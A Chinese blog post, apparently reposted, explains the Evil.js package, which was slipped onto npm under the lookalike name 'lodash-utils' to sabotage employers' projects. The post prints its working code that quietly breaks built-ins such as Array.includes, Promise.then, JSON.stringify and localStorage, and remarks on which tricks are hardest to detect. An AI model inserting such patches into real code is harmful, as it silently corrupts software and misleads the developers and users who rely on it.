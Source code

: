 # 火爆全网的 Evil.js 源码解读

* [转载自稀土掘金 ](https://juejin.cn/post/7133134875426553886)

[[toc]]
### 背景

2022年8月18日，一个名叫Evil.js的项目突然走红，README介绍如下：
::: danger
什么？黑心996公司要让你提桶跑路了？<br/>
想在离开前给你们的项目留点小 礼物 ？<br/>
偷偷地把本项目引入你们的项目吧，你们的项目会有但不仅限于如下的神奇效果：

* 当数组长度可以被7整除时，Array.includes 永远返回false。
* 当周日时，Array.map 方法的结果总是会丢失最后一个元素。
* Array.filter 的结果有2%的概率丢失最后一个元素。
* setTimeout 总是会比预期时间慢1秒才触发。
* Promise.then 在周日时有10%不会注册。
* JSON.stringify 会把I(大写字母I)变成l(小写字母L)。
* Date.getTime() 的结果总是会慢一个小时。
* localStorage.getItem 有5%几率返回空字符串。
:::

![alt evil.js](../../../../docs/.vuepress/public/images/Evil.webp)

并且作者发布了这个包到npm上，名叫lodash-utils，一眼看上去，是个非常正常的npm包，跟utils-lodash这个正经的包的名称非常相似。

如果有人误装了lodash-utils这个包并引入，代码表现可能就一团乱麻了，还找不到原因。真是给黑心996公司的小“礼物”了。

现在，这个Github仓库已经被删除了(不过还是可以搜到一些人fork的代码)，npm包也已经把它标记为存在安全问题，将代码从npm上移除了。可见npm官方还是很靠谱的，及时下线有风险的代码。
![alt evil.js](../../../../docs/.vuepress/public/images/lodash-utils.webp)
### 源码解析

作者是如何做到的呢？我们可以学习一下，但是只单纯学技术，不要作恶噢。要做更多有趣的事情。
### 立即执行函数
代码整体是一个立即执行函数，
```js
(global => {
  
})((0, eval('this')));
```
该函数的参数是(0, eval('this'))，返回值其实就是window，会赋值给函数的参数global。
::: danger
另有朋友反馈说，最新版本是这样的：
```js
(global => {
  
})((0, eval)('this'));
```

该函数的参数是(0, eval)('this')，目的是通过eval在间接调用下默认使用顶层作用域的特性，通过调用this获取顶层对象。这是兼容性最强获取顶层作用域对象的方法，可以兼容浏览器和node，并且在早期版本没有globalThis的情况下也能够很好地支持，甚至在window、globalThis变量被恶意改写的情况下也可以获取到(类似于使用void 0规避undefined关键词被定义)。
:::
#### 为什么要用立即执行函数？
这样的话，内部定义的变量不会向外暴露。<br/>
使用立即执行函数，可以方便的定义局部变量，让其它地方没办法引用该变量。<br/>
否则，如果你这样写：
```html
<script>
  const a = 1;
</script>
<script>
  const b = a + 1;
</script>
```
* 在这个例子中，其它脚本中可能会引用变量a，此时a不算局部变量。

### includes方法
数组长度可以被7整除时，本方法永远返回false。
```js
const _includes = Array.prototype.includes;
Array.prototype.includes = function (...args) {
  if (this.length % 7 !== 0) {
    return _includes.call(this, ...args);
  } else {
    return false;
  }
};
```
includes是一个非常常用的方法，判断数组中是否包括某一项。而且兼容性还不错，除了IE基本都支持。<br/>
作者具体方案是先保存引用给_includes。重写includes方法时，有时候调用_includes，有时候不调用_includes。<br/>
注意，这里_includes是一个闭包变量。所以它会常驻内存（在堆中），但是开发者没有办法去直接引用。

### map方法
当周日时，Array.map方法的结果总是会丢失最后一个元素。
```js
const _map = Array.prototype.map;
Array.prototype.map = function (...args) {
  result = _map.call(this, ...args);
  if (new Date().getDay() === 0) {
    result.length = Math.max(result.length - 1, 0);
  }
  return result;
}
```
如何判断周日？new Date().getDay() === 0即可。<br/>
这里作者还做了兼容性处理，兼容了数组长度为0的情况，通过Math.max(result.length - 1, 0)，边界情况也处理的很好。

### filter方法
Array.filter的结果有2%的概率丢失最后一个元素。
```js
const _filter = Array.prototype.filter;
Array.prototype.filter = function (...args) {
  result = _filter.call(this, ...args);
  if (Math.random() < 0.02) {
    result.length = Math.max(result.length - 1, 0);
  }
  return result;
}
```
跟includes一样，不多介绍了。

### setTimeout
setTimeout总是会比预期时间慢1秒才触发。
```js
const _timeout = global.setTimeout;
global.setTimeout = function (handler, timeout, ...args) {
  return _timeout.call(global, handler, +timeout + 1000, ...args);
}
```
这个其实不太好，太容易发现了，不建议用。

### Promise.then
Promise.then 在周日时有10%几率不会注册。
```js
const _then = Promise.prototype.then;
Promise.prototype.then = function (...args) {
  if (new Date().getDay() === 0 && Math.random() < 0.1) {
    return;
  } else {
    _then.call(this, ...args);
  }
}
```
牛逼，周日的时候才出现的Bug，但是周日正好不上班。如果有用户周日反馈了Bug，开发者周一上班后还无法复现，会以为是用户环境问题。

### JSON.stringify
JSON.stringify 会把'I'变成'l'。
```js
const _stringify = JSON.stringify;
JSON.stringify = function (...args) {
  return _stringify(...args).replace(/I/g, 'l');
}
```
字符串的replace方法，非常常用，但是很多开发者会误用，以为'1234321'.replace('2', 't')就会把所有的'2'替换为't'，其实这只会替换第一个出现的'2'。正确方案就是像作者一样，第一个参数使用正则，并在后面加个g表示全局替换。

### Date.getTime
Date.getTime() 的结果总是会慢一个小时。
```js
const _getTime = Date.prototype.getTime;
Date.prototype.getTime = function (...args) {
  let result = _getTime.call(this);
  result -= 3600 * 1000;
  return result;
}
```

### localStorage.getItem
localStorage.getItem 有5%几率返回空字符串。
```js
const _getItem = global.localStorage.getItem;
global.localStorage.getItem = function (...args) {
  let result = _getItem.call(global.localStorage, ...args);
  if (Math.random() < 0.05) {
    result = '';
  }
  return result;
}
```
### 用途
作者很聪明，有多种方式去改写原生行为。<br/>
但是除了作恶，我们还可以做更多有价值的事情，比如：<br/>

修改原生fetch，每次请求失败时，可以自动做一次上报失败原因给监控后台。<br/>
修改原生fetch，统计所有请求平均耗时。<br/>
修改原生localStorage，每次set、get、remove时，默认加一个固定的key在前方。因为localStorage是按域名维度存储的，如果你没有引入微前端方案做好localStorage隔离，就需要自己开发这种工具，做好本地存储隔离。<br/>
如果你是做前端基建工作的，不希望开发者使用某些原生的API，也可以直接拦截掉，并在开发环境下提示警告，提示开发者不允许用该API的原因和替代方案。<br/>
……


